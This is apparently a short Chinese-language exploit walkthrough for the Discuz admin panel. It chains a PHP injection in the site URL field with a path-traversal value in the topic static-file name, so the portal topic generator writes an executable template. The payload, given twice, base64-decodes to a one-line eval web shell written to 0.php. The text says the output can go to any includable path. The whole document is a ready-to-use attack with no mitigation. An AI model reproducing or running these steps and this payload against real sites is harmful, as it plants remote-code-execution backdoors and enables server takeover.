



##### 1、全局 --> 站点信息 --> 网站URL

```
修改网站 URL -->  http://www.comsenz.com/#<?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2FdKTsgPz4='));?>
```

##### 2、工具 --> 更新缓存

##### 3、门户 --> HTML管理 

```
静态文件扩展名: htm
专题HTML存放目录: data/cache
```



##### 4、门户 --> 专题管理 --> 创建专题

静态化名称[此处未做任何限制]: `../../template/default/portal/portal_topic_test`
附加内容: 站点尾部信息



##### 5、门户 --> 专题管理

开启并生成刚添加的专题 

##### 6、门户 --> 专题管理 --> 创建专题

模板名 选择刚生成的 `./template/default/portal/portal_topic_test.htm`




就执行了php代码 `<?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2FdKTsgPz4='));?>`

不仅仅是可以生成到专题目录，可以生成到任何可以包含的下面！

